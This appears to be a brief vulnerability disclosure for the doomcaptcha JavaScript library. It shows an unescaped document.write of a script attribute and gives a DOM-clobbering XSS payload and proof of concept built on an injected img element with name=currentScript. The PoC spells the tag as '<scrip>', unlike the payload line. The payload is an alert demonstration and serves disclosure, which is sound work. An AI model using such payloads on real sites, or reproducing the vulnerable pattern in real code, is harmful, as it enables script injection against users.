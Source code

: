 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Payload: ```<img name=currentScript label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<scrip>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
